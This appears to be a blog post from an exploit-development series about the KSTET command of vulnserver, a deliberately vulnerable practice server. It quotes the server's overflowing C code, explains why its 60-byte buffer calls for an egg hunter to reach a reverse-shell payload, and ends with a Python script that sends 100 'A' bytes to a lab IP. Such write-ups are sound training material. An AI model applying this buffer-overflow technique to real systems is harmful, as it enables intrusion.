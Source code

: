```yaml
---
title: "Exploiting vulnserver : kstet"
layout: post
tags: [vulnserver]
excerpt: "Egg Hunter"
---
```


This vulerability is very similar to the one described in the  [TRUN post](/_posts/vulnserver/2019-01-30-trun.md). However there are some key differences - mainly limitations and restrictions on buffer space.

# The Code

```csharp
if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
    char *KstetBuf = malloc(100);
    strncpy(KstetBuf, RecvBuf, 100);
    memset(RecvBuf, 0, DEFAULT_BUFLEN);
    Function2(KstetBuf);
    SendResult = send( Client, "KSTET SUCCESSFUL\n", 17, 0 );
}

...
void Function2(char *Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

The limitations and restrictions are:


- The `KSTET` command will call `Function2` which only allocates __60__ bytes of memory instead of __2000__ as with the `TRUN` command which calls `Function3`.

	__60__ bytes is too small for our reverse shell payload. We will need to insert an egg hunter here that will search for our final shellcode elsewhere in memory.

- `strncpy(KstetBuf, RecvBuf, 100);`
  
	Only the first __100__ bytes of the user supplied input to the `KSTET` command is passed to `Function2`.

With these limitations and restrictions to the buffer space, we cannot simply exploit `KSTET` with a single command. We will need to send our final shellcode payload in a different command and utilize an egg hunter to locate it. An egg hunter is just a small bit of assembly that can search the entire memory range for a magic string we define (just before our final shellcode) and will redirect execution flow there.

# Exploitation

```python
#!/usr/bin/env python

import socket
import sys

buffer = 'A' * 100
command = 'KSTET '
data = command + buffer

print '[*] Sending data: ' + command + buffer.encode('hex')
s = socket.create_connection(('192.168.185.146',9999))
s.sendall(data)
```
